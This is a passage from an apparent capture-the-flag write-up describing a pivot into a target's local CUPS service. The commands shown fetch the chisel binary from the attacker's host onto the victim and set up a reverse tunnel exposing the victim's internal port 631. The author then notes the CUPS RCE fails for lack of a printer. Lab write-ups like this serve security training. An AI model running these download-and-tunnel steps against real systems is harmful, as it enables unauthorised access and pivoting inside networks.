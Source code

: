 Then upload chisel to the victim, then chmod it as executable.

```bash
wget -O chisel http://10.10.14.54:8080/chisel_1.7.6_linux_amd64 && chmod +x ./chisel
```

Now we run chisel as a reverse tunnelling enabled server on our attacker.

```bash
./chisel_1.7.6_linux_amd64 server -p 8081 --reverse &
```

And then run chisel as a client on our victim.

```bash
./chisel client 10.10.14.54:8081 R:63131:127.0.0.1:631
```

We can now connect to the CUPS web service on our attacker box, on port 63131

![cups_localhost](assets/antique_screenshots/cups_localhost.png)

The RCE requires a printer be set up, and in this case there is no printer. No win there.
